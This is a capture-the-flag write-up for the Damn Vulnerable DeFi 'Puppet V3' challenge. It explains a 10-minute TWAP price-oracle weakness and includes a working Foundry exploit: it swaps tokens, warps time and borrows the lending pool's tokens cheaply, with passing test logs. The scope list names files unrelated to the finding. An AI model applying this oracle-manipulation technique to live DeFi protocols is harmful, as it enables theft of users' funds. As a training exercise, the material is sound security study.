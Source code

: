 # Damn Vulnerable Defi - Puppet V3
- Scope
    - WalletDeployer.sol
    - TransparentProxy.sol
    - AuthorizerUpgradeable.sol
    - AuthorizerFactory.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## `PuppetV3Pool` relies on UniswapV3Pool price oracle with a 10 mins TWAP, allowing for a short window of price manipulation

### Summary
PuppetV3Pool uses a 10min TWAP period to get price from UniswapV3 oracle, this allows the price of DVT tokens to be manipulated for a short period of time. Thereafter, the DVT tokens inside PuppetV3Pool can be borrowed at a very low cost.

### Vulnerability Details
PuppetV3Pool uses a 10min TWAP period to get price from UniswapV3 oracle, this allows attacker to manipulate the price of tokens for a short period of time.

### Impact/Proof of Concept
1. Swap our DVT for WETH, this will cause the UniswapPool to have more DVT tokens and reduce the value of the token
2. Within a short window, the PuppetV3Pool will get the low price of DVT tokens from the UniswapPool.
3. Hence, we proceed to borrow from PuppetV3Pool to get all the DVT tokens for a low price
```diff
function test_puppetV3() public checkSolvedByPlayer {
        address uniswapRouterAddress = 0xE592427A0AEce92De3Edee1F18E0157C05861564; // UniswapV3 router address
        token.approve(address(uniswapRouterAddress), type(uint256).max);
        uint256 wethRequired = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        console.log("WETH required before swap: ", wethRequired);

        IUniswapV3Pool uniswapPool = IUniswapV3Pool(uniswapFactory.getPool(address(weth), address(token), FEE));
        console.log("pool DVT Tokens before swap: ", token.balanceOf(address(uniswapPool))/1e18);

        ISwapRouter(uniswapRouterAddress).exactInputSingle(
            ISwapRouter.ExactInputSingleParams(
                address(token),
                address(weth),
                FEE,
                address(player),
                block.timestamp,
                PLAYER_INITIAL_TOKEN_BALANCE, // 110 DVT TOKENS
                0,
                0
            )
        );  
        vm.warp(block.timestamp + 110); // Duration to fast forward; Must be less than 115 seconds and long enough so that TWAP will adjust the price to be low
        console.log("pool DVT Tokens after swap: ", token.balanceOf(address(uniswapPool))/1e18);
        uint256 quote = lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        weth.approve(address(lendingPool), quote);
        console.log("WETH required before swap: : ", quote);
        lendingPool.borrow(LENDING_POOL_INITIAL_TOKEN_BALANCE);
        token.transfer(recovery,LENDING_POOL_INITIAL_TOKEN_BALANCE);
    }
```

Results
```diff
[PASS] test_puppetV3() (gas: 763511)
Logs:
  WETH required before swap:  3000000000000000000000000
  pool DVT Tokens before swap:  100
  pool DVT Tokens after swap:  200
  WETH required before swap: :  143239918968367545

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 300.16ms (2.25ms CPU time)
```

